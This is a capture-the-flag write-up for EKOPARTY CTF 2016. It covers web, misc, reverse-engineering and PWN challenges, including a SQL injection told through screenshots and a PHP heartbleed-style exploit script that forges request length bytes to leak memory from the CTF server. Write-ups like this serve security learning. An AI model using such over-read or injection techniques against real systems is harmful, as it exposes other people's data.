# EKOPARTY CTF 2016 - WRITEUP

Author: Juan Escobar
Date: 28 - 10 - 16

## Misc 50
### Hidden inside EKO
> Find the hidden flag in the EKO pixels!

The flag was found into nicknames at the background image: https://ctf.ekoparty.org/static/img/background.png



Flag
**EKO{th4_fl4g}**

## Web 25
### Mr. Robot
> Disallow it!

The flag was found into robots.txt file
```txt
User-agent: *
Disallow: /static/wIMti7Z27b.txt
```



Flag
**EKO{robot_is_following_us}**

## Web 50
### RFC 7230
> Get just basic information from this server (ctf.ekoparty.org).

The flag was found in the header Server of HTTP GET request to ctf.ekoparty.org



Flag
**EKO{this_is_my_great_server}**

## Web 100
### Super duper advanced attack
> Can you find the flag?
> http://0491e9f58d3c2196a6e1943adef9a9ab734ff5c9.ctf.site:20000

The challenge was about exploit a SQL injection and find the flag.


Columns of database


Dump of data

After cracking the hashes, try them as flag without success and thinking for a while, finally, I found the flag was in the @flag variable. I was the second team in solving this chall :D



Flag
**EKO{do_not_forget_session_variables}**

## FBI 25
### Welcome to the dark side
> At Silk Road, every precaution is made to ensure your anonymity and security, from > connecting to the site, to making your transactions, to receiving your items.
> https://silkroadzpvwzxxv.onion

The flag was found in the source code of web page as a comment. I use Tor software to connect to the .onion url.



Flag
**EKO{buy_me_some_b0ts}**

## FBI 50
### Metadata
> Help me to find some metadata!
> https://silkroadzpvwzxxv.onion

The flag was found in the certificate of web site, section *Issued by*, *Organizational Unit (OU)*.



Flag
**EKO{is_this_just_real_file_is_this_just_fantasy}**

## REV 25
### JVM
> Bytecodes everywhere, reverse them.
> Attachment
> rev25_3100aa76fca4432f.zip

The flag was found decompiling the EKO.class file into Java code.





Flag
**EKO{893116}**

## PWN 50
### Bleeding
> Let's bleed some bytes!
> bleed_client 4ff0eff1d46c1d74d152aaf36de6f2799020bdbc.ctf.site 50000
> Attachment
> pwn50_af93ddaf35df98ff.zip

The challenge was solved intercepting the traffic with Wireshark and replicating the request with a modification in 4 to 7 bytes to exploit the heartbleed and XOR operation with the key '0xdeadbeefcafebabe' in request content.

Exploit
´´´php
<?php
error_reporting(E_ALL);

$key = "de ad be ef ca fe ba be";

$akey = explode(" ", $key);
$file = file_get_contents("req.hex");
$ahex = explode(" ", $file);

$out = "";
for ($i=0; $i < count($ahex); $i++) { 
	$out .= bin2hex(chr(hexdec($ahex[$i]) ^ hexdec($akey[$i % 8]))). " ";
}

$vector = explode(" ", $out);
unset($vector[count($vector)-1]);

# 4 - 7
$vector[4] = $argv[1];
$vector[5] = $argv[2];
$vector[6] = $argv[3];
$vector[7] = $argv[4];

$payload = "";
for ($i=0; $i < count($vector); $i++) { 
	$payload .= bin2hex(chr(hexdec($vector[$i]) ^ hexdec($akey[$i % 8])));
}


$service_port = 50000;
$address = "4ff0eff1d46c1d74d152aaf36de6f2799020bdbc.ctf.site";
$socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
if ($socket === false) {
    echo "socket_create() falló: razón: " . socket_strerror(socket_last_error()) . "\n";
}

echo "Intentando conectar a '$address' en el puerto '$service_port'...\n";

echo "Length...\n";
echo $vector[4] . "\n";
echo $vector[5] . "\n";
echo $vector[6] . "\n";
echo $vector[7] . "\n";

$result = socket_connect($socket, $address, $service_port);
if ($result === false) {
    echo "socket_connect() falló.\nRazón: ($result) " . socket_strerror(socket_last_error($socket)) . "\n";
}


echo "Comparando penticiones..\n";
echo "file: " . str_replace(" ", "", $file) . "\n";
echo "payl. " . $payload . "\n";
echo "\n";

$in = hex2bin($payload);
echo "Enviando petición ...";
socket_write($socket, $in, strlen($in));
echo "OK.\n";

echo "Leyendo respuesta:\n\n";
while ($out = socket_read($socket, 2048)) {
    echo $out;
}

echo "\n\nCerrando socket...";
socket_close($socket);
echo "OK.\n\n";
´´´



Flag
**EKO{1m_bl33d1ng_byt35}**

Ranking 255 of 721.



